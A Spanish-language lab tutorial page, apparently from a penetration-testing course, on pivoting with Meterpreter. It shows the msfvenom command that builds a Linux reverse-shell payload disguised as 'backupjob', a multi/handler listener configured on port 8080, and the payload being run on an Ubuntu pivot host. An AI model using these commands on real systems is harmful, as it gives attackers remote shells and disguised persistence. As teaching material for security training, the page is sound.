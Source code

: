 # Meterpreter Tunneling & Port Forwarding

Ahora consideremos un escenario en el que tenemos nuestro acceso de Shell Meterpreter en el servidor Ubuntu (el host de pivote), y queremos realizar escaneos de enumeración a través del host de pivote, pero nos gustaría aprovechar las comodidades que las sesiones de meterpreter nos traen. En tales casos, aún podemos crear un pivote con nuestra sesión de meterpreter sin confiar en el reenvío de puertos SSH. Podemos crear un shell meterpreter para el servidor Ubuntu con el comando a continuación, que devolverá un shell en nuestro host de ataque en el puerto`8080`.

### **Creación de carga útil para el host Ubuntu Pivot**

Túnel de meterpreter y reenvío de puertos

```
xnoxos@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob

```

Antes de copiar la carga útil, podemos comenzar un[múltiple/manejador](https://www.rapid7.com/db/modules/exploit/multi/handler/), también conocido como un manejador de carga útil genérico.

### **Configurar y iniciar el Multi/Handler**

Túnel de meterpreter y reenvío de puertos

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080

```

Podemos copiar el`backupjob`Archivo binario al host Ubuntu Pivot`over SSH`y ejecutarlo para obtener una sesión de meterpreter.

### **Ejecutando la carga útil en el host Pivot**

Túnel de meterpreter y reenvío de puertos

```
ubuntu@WebServer:~$ lsbackupjob
ubuntu@WebServer:~$ chmod +x backupjob ubuntu@WebServer:~$ ./backupjob
```
